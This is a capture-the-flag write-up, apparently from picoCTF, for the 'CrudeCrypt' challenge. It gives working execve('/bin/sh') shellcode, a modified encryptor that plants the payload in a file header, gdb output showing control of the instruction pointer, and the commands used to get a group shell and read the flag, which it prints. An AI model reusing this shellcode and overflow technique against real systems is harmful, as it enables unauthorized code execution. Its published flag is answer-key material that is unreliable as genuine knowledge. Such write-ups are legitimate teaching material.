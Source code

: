 CrudeCrypt - 180
================

### Desc:
Without proper maintainers, development of Truecrypt has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the code and read the contents of flag.txt from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.

### Hint:
You can never trust user input!

### Getting the flag:

```
$ echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80' > raw.txt
$ gcc -ocrude_crypt2 crude_crypt2.c -lcrypto -lmcrypt # my hacked crude_crypt
$ ./crude_crypt2 raw.txt enc.txt # adding payload on file header

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/crudecrypt/crude_crypt decrypt enc.txt raw.txt
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: foobar


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/x $esp
0xffffd630:	0x90909090

$ ./crude_crypt2 raw.txt enc.txt
$ scp enc.txt pico22418@shell2014.picoctf.com:/tmp/sigsegv
$ /home/crudecrypt/crude_crypt decrypt enc.txt raw.txt
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: foobar

$ id
uid=13315(pico22418) gid=1017(picogroup) egid=1012(crudecrypt) groups=1017(picogroup)
$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```

